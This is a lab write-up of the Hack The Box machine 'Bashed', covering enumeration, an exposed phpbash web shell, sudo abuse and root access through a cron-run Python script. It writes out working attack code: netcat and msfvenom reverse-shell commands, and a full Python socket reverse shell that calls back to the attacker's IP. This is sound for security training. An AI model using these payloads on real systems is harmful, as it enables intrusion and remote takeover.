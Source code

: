 # Bashed 10.10.10.68 - Linux

 - __User__: 008 - 1st Attempt
 - __Root__: 008 - 2nd Attempt

## Initial Attempt, 05/06/2020

### Enumeration

`nmap -oA bashed -A -p- 10.10.10.68`

```shell
Nmap scan report for 10.10.10.68
Host is up (0.032s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.68 -t 40`

```shell
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
/css (Status: 301)
/dev (Status: 301)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

The site at `http://10.10.10.68` points to https://github.com/Arrexel/phpbash. Says to drop phpbash.php on the server and then access it via browser. This is the intended vector, I would imagine. Now we have to get a file on the server.

... or maybe not. Investigating `gobuster` results, check `http://10.10.10.68/dev` and there is phpbash.php right there. Let's run it.

```powershell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

We have users `arrexel` and `scriptmanager`. We can also find the user flag in `/home/arrexel/user.txt`

```shell
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Can I do this without metasploit? Can I have `nc` listen and replace this `sendMail.php` file with a call to deliver a bash shell to my listener?

Interestingly, the shell has some passwordless access to the 2nd user?

```powershell
www-data@bashed:/var/www/html/dev# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

## Second Attempt, 05/07/2020

I am unable to `su` to this user, says I need a real terminal. I tried using python and perl to execution a `/bin/bash` or `/bin/sh` shell but it only seems to hang the process and never resolve.

```shell
www-data@bashed:/bin# cat /proc/version
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

Attempted to issue `nc 10.10.14.53 4848 -e /bin/bash` from the phpshell to a listener. Unfortunately `netcat-openbsd` version is installed which does not offer `-e` functionality.

Decided to use `wget` from the phpshell as `www-data` to move files into the `html/uploads` folder where we have write permissions. Tried a number of payloads to spawn meterpreter shells, but in the end it was `msfvenom -p php/reverse_perl LHOST=10.10.14.53 LPORT=4848 > perl.php` and a netcat listener that got me a `www-data` shell in my normal terminal. Commands like `su` were still failing. But `sudo -u scriptmanager /bin/bash` happened to work! And I was able to upgrade my terminal with `python -c 'import pty; pty.spawn("/bin/sh")'`.

In the `/scripts` folder which is owned by `scriptmanager` some behavior:

```powershell
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 May  6 22:01 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May  6 22:01 test.txt
scriptmanager@bashed:/scripts$
```

The python script is dead simple:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

And clearly "root" ran this script to generate a test file. And... if I delete the test file... it keeps popping back up! Probably a cron job for root user to run this script? Let's modify this script for priv esc purposes. Can we have it fire off a root shell via nc?

```python
import subprocess
cmd = "nc 10.10.14.53 7272 -e /bin/bash"
ret = subprocess.call(cmd, shell=True)
f = open("pen.log", "a")
f.write("accessed code was: {} \n".format(ret))
f.close
```

This doesn't work... probably because fucking `-e` is not in this nc version, facepalm. Looked up a python-native reverse shell:


```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.53",5674))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
f = open("pen.log", "a")
f.write("accessed code was: {} \n".format(p))
f.close
```

And we're in. Root runs the test.py and provides us a root shell:

```powershell
listening on [any] 5674 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.68] 54394
bash: cannot set terminal process group (3458): Inappropriate ioctl for device
bash: no job control in this shell
root@bashed:/scripts# whoami
whoami
root
root@bashed:/scripts# cd /root
cd /root
root@bashed:~# ls -al
ls -al
total 32
drwx------  3 root root 4096 Dec  4  2017 .
drwxr-xr-x 23 root root 4096 Dec  4  2017 ..
-rw-------  1 root root    1 Dec 23  2017 .bash_history
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Dec  4  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Dec  4  2017 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt
```